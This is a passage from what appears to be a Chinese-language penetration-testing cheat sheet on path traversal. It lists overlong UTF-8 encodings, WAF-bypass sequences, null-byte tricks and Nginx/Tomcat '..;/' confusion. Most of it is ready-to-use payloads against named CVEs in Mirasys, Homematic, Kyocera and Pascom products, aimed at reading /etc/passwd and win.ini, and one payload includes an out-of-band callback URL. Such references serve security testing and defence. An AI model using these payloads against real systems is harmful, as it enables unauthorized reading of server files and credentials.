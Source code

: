 | 字符 | 编码 |
| --- | -------- |
| `.` | `%c0%2e`, `%e0%40%ae`, `%c0%ae` |
| `/` | `%c0%af`, `%e0%80%af`, `%c0%2f` |
| `\` | `%c0%5c`, `%c0%80%5c` |

### 混乱路径

有时你会遇到一个 WAF，它从字符串中移除了 `../` 字符，只需将其复制粘贴即可。

```powershell
..././
...\.\
```

**示例:** Mirasys DVMS Workstation <=5.12.6

```ps1
{{BaseURL}}/.../.../.../.../.../.../.../.../.../windows/win.ini
```

### 空字节

空字节 (`%00`)，也称为空字符，在许多编程语言和系统中是一种特殊的控制字符（0x00）。它通常用作 C 和 C++ 等语言中的字符串终止符。在目录遍历攻击中，空字节用于操纵或绕过服务器端输入验证机制。

**示例:** Homematic CCU3 CVE-2019-9726

```js
{{BaseURL}}/.%00./.%00./etc/passwd
```

**示例:** Kyocera 打印机 d-COPIA253MF CVE-2020-23575

```js
{{BaseURL}}/wlmeng/../../../../../../../../../../../etc/passwd%00index.htm
```

### 反向代理 URL 实现

Nginx 将 `/..;/` 视为目录，而 Tomcat 将其视为 `/../` 的处理方式，允许我们访问任意 Servlet。

```powershell
..;/
```

**示例**: Pascom Cloud 电话系统 CVE-2021-45967

NGINX 和后端 Tomcat 服务器之间的配置错误导致 Tomcat 服务器出现路径遍历，暴露了未预期的端点。

```js
{{BaseURL}}/services/pluginscript/..;/..;/..;/getFavicon?host={{interactsh-url}}
```

## 利用

这些利用方法影响与特定技术相关的机制。
